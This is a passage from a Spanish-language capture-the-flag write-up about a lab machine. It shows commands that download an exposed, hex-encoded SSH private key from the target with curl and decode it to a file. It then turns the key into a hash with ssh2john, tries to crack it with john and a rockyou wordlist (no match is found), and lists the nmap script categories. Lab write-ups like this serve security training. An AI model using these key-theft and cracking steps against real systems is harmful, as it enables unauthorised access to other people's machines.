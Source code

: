 ```
-----END RSA PRIVATE KEY-----
```

Por tanto lo descargamos y le damos los permisos respectivos

```console
curl -s -X GET "http://10.10.10.79/dev/hype_key" | xxd -ps -r > content/id_rsa
chmod 600 content/id_rsa
```

obtenemos el hash del archivo id_rsa

```console
python2 /usr/share/john/ssh2john.py  content/id_rsa > hash
```

Verificamos con john pero no encontramos nada

```console
john -w:$(locate rockyou.txt | head -n 1) hash
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 8 needed for performance.
0g 0:00:00:02 DONE (2022-08-30 00:53) 0g/s 4812Kp/s 4812Kc/s 4812KC/s *7¡Vamos!
Session completed
```

Revisamos con nmap algunos escripts

```console
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
```

```
"auth"
"broadcast"
"brute"
"default"
"discovery"
"dos"
"exploit"
"external"
"fuzzer"
"intrusive"
"malware"
"safe"
"version"
"vuln"
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>